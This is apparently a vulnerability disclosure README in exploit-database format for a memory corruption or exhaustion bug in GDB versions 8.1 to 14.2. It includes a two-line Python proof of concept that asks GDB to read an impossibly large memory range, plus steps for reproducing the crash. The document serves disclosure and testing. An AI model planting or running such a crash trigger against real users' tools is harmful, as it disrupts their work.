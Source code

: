 ## Exploit **GDB 8.1~14.2 memory corruption** 

Google Dork:gdb, memory leak, memory exhausted.

Date: 2024.4.2

Exploit Author: N1nEmAn

Vendor Homepage: https://www.sourceware.org/gdb

Software Link: https://sourceware.org/pub/gdb/releases/

Version: 8.1~14.2  (currently known, and possibly more)

Tested on: Ubuntu18.02、archlinux-2024

## POC

Save as `poc.py` and use `source /path/to/poc.py`.

```py
import gdb
gdb.selected_inferior().read_memory(0, 18446744073709551615)
```

## Vulnerability Reproduction

We exploited this in the newest GDB (14.2), and here are the details of my operating system:

```sh
OS: Arch Linux x86_64
Kernel: 6.8.2-zen2-1-zen
Memory: 9998MiB / 27746MiB
CPU: AMD Ryzen 7 6800H with Radeon Graphics
GPU: AMD ATI Radeon 680M
```

### 1.load any binary file

![image-20240402211432774](./1.png)

### 2.run it and ctrl+c to stop it

![image-20240402211541005](./2.png)

### 3. source poc.py

![image-20240402211613585](./3.png)

![image-20240402212709525](./4.png)

### 4. in Ubuntu

![image-20240402212845142](./5.png)
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjYzNDQ2MTUwXX0=
-->